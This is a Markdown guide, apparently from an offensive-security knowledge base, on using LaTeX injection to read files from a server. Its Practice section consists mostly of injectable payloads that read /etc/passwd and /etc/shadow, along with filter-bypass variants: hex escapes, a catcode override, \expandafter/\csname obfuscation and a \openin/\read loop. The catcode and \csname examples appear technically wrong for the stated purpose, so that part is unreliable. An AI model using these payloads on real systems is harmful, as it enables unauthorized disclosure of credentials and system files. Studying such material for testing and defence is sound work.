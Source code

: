 ```yaml
---
title: 'LaTeX Injection: Read File Exploitation Explained'
description: Explore LaTeX injection techniques to disclose files, bypass filters,
  and understand risks.
keywords:
- LaTeX injection
- file disclosure
- input filter bypass
- catcode override
- command expansion techniques
---
```


# Read File

## Context

This guide focuses on exploiting LaTeX injection to disclose file contents on a server, leveraging various command techniques and encoding unusual paths. By understanding how LaTeX processes file input and applying bypass techniques, attackers can read sensitive files without being detected by typical input validation measures. This article assumes you have foundational knowledge of LaTeX commands, file system structures, character encoding, and LaTeX Injection practices.

## Theory

### File Disclosure via LaTeX Injection

LaTeX is a typesetting system that processes file inclusion commands during compilation. This capability can be abused to read and disclose arbitrary files from a server's filesystem. The vulnerability arises because LaTeX compilers execute file inclusion commands without adequate sandboxing, allowing attackers to inject these commands into user-controlled input fields. When the compiled document is rendered, contents of these files are disclosed to the attacker, facilitating unauthorized data access.

### Key LaTeX File Inclusion Primitives

Various LaTeX commands can be exploited to include file contents:

- `\input{file}` and `\include{file}` insert file contents directly at compile time.
- `\openin` and `\read` allow file content to be read line-by-line.
- `\lstinputlisting` and `\verbatiminput` allow the display of file contents in their entirety and without formatting.

### Bypassing Input Filters and Encoding Restrictions

To successfully disclose files, attackers need to bypass input filters and any encoding restrictions that may be in place:

- **Unicode and Hexadecimal Escapes**: Characters can be obfuscated using their Unicode (e.g., `^^2f` for '/') or hexadecimal equivalents to bypass naive blacklists.
- **Catcode Overrides**: This technique involves redefining certain characters' behavior (via catcodes) to circumvent input checks.
- **Command Expansion Primitives**: Using `\expandafter` and `\csname`, attackers can construct and obfuscate payloads dynamically, evading static analysis.

## Practice

### Direct File Inclusion with \input

Directly inject the following LaTeX payload into the input field where the LaTeX code is parsed:

```latex
\input{/etc/passwd}
```

This command attempts to include and render the contents of the `/etc/passwd` file. If successful, the sensitive file contents will be disclosed in the compiled document.

### File Disclosure with \lstinputlisting

To display a file's contents verbatim in the compiled output, use the `\lstinputlisting` command:

```latex
\lstinputlisting{/etc/shadow}
```

This renders the contents of `/etc/shadow` directly, facilitating the exposure of sensitive data.

### Bypassing Filters with Unicode/Hexadecimal Escapes

To evade input filters that block `/` or other characters, leverage hexadecimal escapes:

```latex
\input{^^2fetc^^2fpasswd}
```

This sequence translates the hexadecimal encoding to '/' during processing, bypassing straightforward filter attempts.

### Catcode Override for File Inclusion

Adjust the category code of characters like `/` to enable file inclusion bypass:

```latex
\catcode`/=0 \input/etc/passwd
```

This technique redefines `/` as an escape character, bypassing character-level restrictions in the system.

### Obfuscated Inclusion with \expandafter and \csname

Employ these LaTeX commands to obfuscate paths and evade filtration mechanisms:

```latex
\expandafter\input\csname etc/passwd\endcsname
```

The expression obfuscates the path's appearance to circumvent simple pattern detection or static analysis tools.

### Line-by-Line File Read with \openin and \read

To read files line-by-line, inject the following sequence:

```latex
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\closein\file
\line
```

This script opens the file, reads a single line into `\line`, and outputs it. Looping this payload could disclose the entire file.

## Tools

- **pdflatex**
- **lualatex**
- **xelatex**